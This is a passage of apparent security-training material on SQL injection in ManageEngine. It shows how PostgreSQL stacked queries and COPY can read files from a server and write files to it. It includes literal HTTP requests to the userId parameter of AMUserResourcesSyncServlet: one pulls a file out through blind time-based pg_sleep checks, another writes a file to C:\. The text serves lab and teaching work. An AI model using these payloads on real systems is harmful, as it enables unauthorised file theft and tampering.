 > Listing 32 - Writing content to files

The idea behind the _COPY_ function is that it is used for importing or exporting data using a table and a file. However, that is a rather loose definition, and in the case of _COPY TO_, we do not need a valid table. We can perform a sub query to return arbitrary content. The following query demonstrates this idea:

```
COPY (select $$awae$$) to <file_name>
```

> Listing 33 - Using a subquery to return valid data so that the COPY operation can write to a file

Since we have stacked queries, it's also possible to read files, although it is slightly more complex. This will require us to create a table, select data from a file into that table, select the contents of the table, and then delete the table. The syntax for that complete operation is shown below:

```
CREATE temp table awae (content text);
COPY awae from $$c:\awae.txt$$;
SELECT content from awae;
DROP table awae;
```

> Listing 34 - Reading content from file C:\awae.txt

We can implement this attack in a blind time-based query as follows:

```
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;create+temp+table+awae+(content+text);copy+awae+from+$$c:\awae.txt$$;select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(10)+end;--+ HTTP/1.0
Host: manageengine:8443
```

> Listing 35 - Reading the first character of the fle C:\awae.txt and comparing it with the letter "h". If the letter is "h", sleep for 10 seconds.

Note again that we cannot directly read the data from the file in the server's response when we use stacked queries. Therefore, the request will once again use a time-based comparison logic to infer the data. If the comparison evaluates to _true_, the query will sleep for 10 seconds. Using this technique, we can extract the contents of any file.

Notice how in this case, we make use of the _substr_ and _ascii_ functions. While the former helps us reading the file content byte by byte, the latter ensures we avoid any text encoding/decoding issues. This is especially important for reading binary files.

Taking the idea of file system interaction further, our next goal would be to remotely write to the targets file system. Let's develop a query that will write a file on the C:\ drive of the vulnerable server:

```
COPY (SELECT $$offsec$$) to $$c:\\offsec.txt$$;
```

> Listing 36 - A simple query that will write to the disk in c:\

We can translate that into the following request:

```
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+ HTTP/1.0
Host: manageengine:8443
```
